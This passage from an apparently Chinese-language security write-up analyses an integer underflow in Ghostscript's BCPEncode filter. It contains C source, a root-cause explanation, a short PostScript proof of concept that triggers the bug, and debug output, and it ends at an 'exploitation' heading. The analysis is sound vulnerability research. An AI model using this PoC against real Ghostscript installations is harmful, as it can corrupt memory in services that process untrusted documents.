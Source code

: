 ```plain
                break;
            }
            *++q = CtrlA;
            ch ^= 0x40;
            if (--wcount < rcount)
                end--;
        }
        *++q = ch;
    }
    pr->ptr = p;
    pw->ptr = q;
    return (p == rlimit ? 0 : 1);
}
```

在该函数中，将读取的每个字符与转义字符列表进行比较。如果它不在列表中，则简单地按原样写入。如果它在转义列表中，将执行一些检查。首先检查（p=rlimit）确保读取指针 p 不在正在读取的缓冲区的最后一个字符处。如果是，则读取指针递减，循环退出。如果不是，它将写入 CtrlA（即 0x01），增加写入指针，并用 0x40 异或当前字符。在最后一次检查之后，它写入当前字符（异或字符），并再次增加写入指针。如果接收的缓冲区的空间小于筛选器正在读取的缓冲区，则 if（--wcount<rcount）检查尝试通过递减结束限制指针来确认此双写入。之后，读取和写入指针被更新，并且函数返回。

通过代码、调试语句和一些调试，错误的根本原因变得更加清楚。似乎，在 s\_xBCPE\_process 函数之后，pw->ptr 被更新为大于 pw->limit 的值，导致（uint）（pw->limit-pw->ptr）溢出。

以下 PostScript 将导致溢出：

```plain
/writtenTo {4 string} def % declare an empty string of size 4
/theFilter writtenTo /BCPEncode filter def % declare a filter, using the BCPEncode that writes to the string
/readsFrom <414141134141> def % declare a string of size 6: 5 'A's and 0x13, which is an escaped character
theFilter readsFrom writestring % write the string to the filter
theFilter flushfile % flush the file for the write to happen
```

创建一个比我们试图读取的字符串更小的要写入的字符串是通过 p=rlimit 来进行检查的。将缓冲区填充到比已满少一个字节，然后传递转义字符会导致两个 q 增量。这就导致程序绕过了对 p 的长度检查

```plain
./gs -Zs -f poc.ps
[...]
[s]init 0x560dc8218ba8, buf=0x560dc8218d20, len=2048, modes=2
[s]write process 0x560dc8218ba8(stream_state), nr=6, nw=4, end=0
[s]after write 0x560dc8218ba8, nr=2, nw=4294967295, end=0, status=1
[s]moving ahead, depth = 1
[s]write process 0x560dc82125a8(stream_state), nr=5, nw=0, end=0
[s]after write 0x560dc82125a8, nr=5, nw=0, end=0, status=-2      
[s]unwinding
[s]write process 0x560dc7f4f668(stream_state), nr=15, nw=0, end=0
Error: /ioerror[s]after write 0x560dc7f4f668, nr=0, nw=0, end=0, status=0  
[...]
```

写入后，nw 变量（即 pw->limit-pw->ptr）溢出。对该流的下一次写入应该会导致越界写入，但在这种情况下，这样做会引发 io error，表明文件已关闭，因为没有更多的空间可写入。

## 漏洞利用
